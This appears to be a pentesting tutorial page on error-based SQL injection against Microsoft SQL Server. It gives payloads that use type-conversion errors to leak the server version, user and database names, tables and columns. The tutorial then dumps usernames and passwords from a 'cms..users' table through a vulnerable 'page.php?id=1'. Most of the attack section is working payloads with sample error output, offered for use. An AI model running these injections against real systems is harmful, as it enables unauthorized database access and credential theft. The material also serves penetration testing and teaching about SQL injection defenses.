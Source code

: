 # MSSQL Server

In MSSQL, the name of the database objects are revealed within errors. the user sa is the super admin and has access to the master database. The master database contains schemas of user-defined dbs.

First thing we can do to start exploting it is to discover the database version, we can trigger a type conversion error for that.

```text
99999 or 1 in (SELECT TOP 1 CAST(<FIELDNAME> as varchar(4096)) from <TABLENAME> WHERE <FIELDNAME> NOT IN (<LIST>)); --
```

* `99999` is a bogus value.
* `or 1 in` is the part of the query that will trigger the error, we are trying to find 1, an integer, within a varchar column.
* `CAST(<FIELDNAME> as varchar(4096))` is where we insert the column that we want to dump \(either user-based or special database column\). 
* `<FIELDNAME>` can also be a SQL function like `user_name()` or a variable like `@@version`
* `WHERE <FIELDNAME> NOT IN (<LIST>)` this part is used to dump the database and can be ommited or ajusted.

To retrieve the SQL version:

```text
99999 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096))) --
```

```text
[Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value 'Microsoft SQL Server 2008 R2 (SP2) - 10.50.4000.0 (X64) Jun 28 2012 08:36:30 Copyright (c) Microsoft Corporation Express Edition (64-bit) on Windows NT 6.1 (Build 7601: Service Pack 1) (Hypervisor) ' to data type int.
```

So, with all this information, how can I dump the entire database?

First of all, we need to discover some stuff:

* Current database username:

```text
99999 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096))) --
```

\*user\_name\(\) is a MSSQL function which returns the current user.

* Current databases and all other databases the user can read

```text
99999 or 1 in (SELECT TOP 1 CAST(db_name(0) as varchar(4096))) --
99999 or 1 in (SELECT TOP 1 CAST(db_name(1) as varchar(4096))) --
99999 or 1 in (SELECT TOP 1 CAST(db_name(2) as varchar(4096))) --
```

\*db\_name\(\) functoin accesses the master..sysdatabases table, which stores all databases installed. We can only see dbs that the user has rights to.

* The tables into a given database

To enumerate all tables in a database, we can use the following payload:

```text
9999 or 1 in (SELECT TOP 1 CAST(name as varchar (4096)) FROM <database name>..sysobjects WHERE xtype='U' and name NOT IN (<known table list>)); --
```

* `xtype means='U'` means we only want user-defined tables
* `name NOT IN ('<know table list>')` name is a column of the sysobjects table. Everytime we find a new table we will append it to the NOT IN list. This is needed because the error display only the first table name.
* The columns of a given table

After retrieving the tables, we can retrieve the columns using the following payload:

```text
9999 or 1 in (SELECT TOP 1 CAST (<db name>..syscolumns.name as varchar (4096)) FROM <db name>..syscolumns,<db name>..sysobjects WHERE <db name>..syscolumns.id=<db name>..sysobjects.id AND <dbname>. .sysobjects.name=<table name> AND <db name>..syscolumns.name NOT IN (<known column list>)); --
```

* `<db name>` is the name of database we're working on
* `<table name>` is the table which we're trying to find the columns
* `<known column list>` list of columns we already discovered

Finally, to dump the database, we can use the following query:

```text
9999 or 1 in (SELECT TOP 1 CAST (<column name> as varchar (4096) ) FROM <db name>..<table name> WHERE <column name> NOT IN (<retrieved data list>)); -- -
```

## Example

Lets say we have an exploitable page.php?id=1 and identified the table users in the database cms

This table contains:

* id - integer
* username - varchar
* password - varchar

To retrieve the ID values, we can use the following payload:

```text
9999 or 1 IN (SELECT TOP 1 CAST(id as varchar) %2bchar(64) FROM cms..users WHERE id NOT IN ('')); -- -
```

We need to concatenate the id value with @ to make sure the selected value has the data type varchar, this makes the error possible:

```text
[Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value '1@' to data type int.
```

Proceed to filter out `1` and query again:

```text
9999 OR 1 IN (SELECT TOP 1 CAST(id as varchar) %2bchar (64) FROM cms..users WHERE id NOT IN ('1')); -- -
```

So, the resulting error is something like

```text
Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value '2@' to data type int.
```

After enumerating the ID, basically request the username or/and password:

```text
9999 OR 1 IN (SELECT TOP 1 CAST(username as varchar) FROM cms..users WHERE id=1); -- -
9999 OR 1 IN (SELECT TOP 1 CAST(password as varchar) FROM cms..users WHERE id=1); -- -
9999 OR 1 IN (SELECT username%2bchar(64) %2bpassword FROM cms..users WHERE id=1); -- -
```

